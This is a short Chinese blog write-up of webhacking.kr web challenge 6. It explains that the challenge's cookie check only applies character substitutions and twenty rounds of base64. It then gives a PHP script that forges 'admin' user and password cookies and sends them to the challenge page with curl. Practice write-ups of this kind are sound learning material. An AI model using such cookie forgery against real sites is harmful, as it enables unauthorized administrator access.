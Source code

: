 ```yaml
---
title: webhacking.kr challenge 6
author: rk700
layout: post
tags:
  - webhacking.kr
  - PHP
---
```


通过阅读[源代码](http://webhacking.kr/challenge/web/web-06/index.phps)，发现只是简单地将cookie做了些字符替换，再用base64解码了20次。于是我们只需要反过来走一遍即可。大部分代码甚至可以直接用他。

{% highlight php %}
<?php

$val_id="admin";
$val_pw="admin";

for($i=0;$i<20;$i++)
{
    $val_id=base64_encode($val_id);
    $val_pw=base64_encode($val_pw);

}

$val_id=str_replace("1","!",$val_id);
$val_id=str_replace("2","@",$val_id);
$val_id=str_replace("3","$",$val_id);
$val_id=str_replace("4","^",$val_id);
$val_id=str_replace("5","&",$val_id);
$val_id=str_replace("6","*",$val_id);
$val_id=str_replace("7","(",$val_id);
$val_id=str_replace("8",")",$val_id);

$val_pw=str_replace("1","!",$val_pw);
$val_pw=str_replace("2","@",$val_pw);
$val_pw=str_replace("3","$",$val_pw);
$val_pw=str_replace("4","^",$val_pw);
$val_pw=str_replace("5","&",$val_pw);
$val_pw=str_replace("6","*",$val_pw);
$val_pw=str_replace("7","(",$val_pw);
$val_pw=str_replace("8",")",$val_pw);


$url = "http://webhacking.kr/challenge/web/web-06/index.php";
$ch = curl_init();
$cookie = "PHPSESSID=ol8a0r79n9j5ocopvd542sslq0; user=" . $val_id . "; password=" . $val_pw;
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_COOKIE, $cookie);
curl_exec($ch);
curl_close($ch);

?>
{% endhighlight %}
